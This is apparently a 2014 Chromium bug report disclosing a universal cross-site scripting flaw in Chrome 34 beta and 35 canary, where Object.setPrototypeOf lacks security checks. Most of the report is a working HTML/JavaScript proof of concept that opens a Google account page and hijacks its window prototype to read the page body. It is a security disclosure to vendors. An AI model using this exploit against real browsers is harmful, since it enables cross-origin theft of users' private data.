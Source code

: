 UserAgent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1847.60 Safari/537.36

Steps to reproduce the problem:

What is the expected behavior?

What went wrong?
The current implementation of Object.setPrototypeOf doesn't have any security checks.
To exploit this as a UXSS an attacker could replace the victim's window prototype with an object
which has default methods/property accessors redefined to leak an object from the victim's JS context.

Repro:
<script>
url = "https://www.google.com/settings/personalinfo?";

function alertBody(value) {
	alert(value.constructor("return document.body.innerHTML")());
}

protoObj = { };
for (var i in window.__proto__)
	if (i.indexOf("on") == 0) //redefine event handlers
		protoObj.__defineSetter__(i, alertBody);

function clickHandler()
{
	wnd = open(url);

	setInterval(function() {
		Object.setPrototypeOf(wnd, protoObj);
	}, 0);

	setInterval(function() {
		wnd.location = url + Math.random();
	}, 2000);
}
</script>
<button onclick="clickHandler()">Click me</button>

Affected versions:
Google Chrome	34.0.1847.60 (Официальная сборка 256359) beta-m
Google Chrome	35.0.1898.0 (Официальная сборка 257789) canary

Chrome stable doesn't have setPrototypeOf yet.

Did this work before? N/A 

Chrome version: 34.0.1847.60  Channel: beta
OS Version: 6.1 (Windows 7, Windows Server 2008 R2)
Flash Version: Shockwave Flash 13.0 r0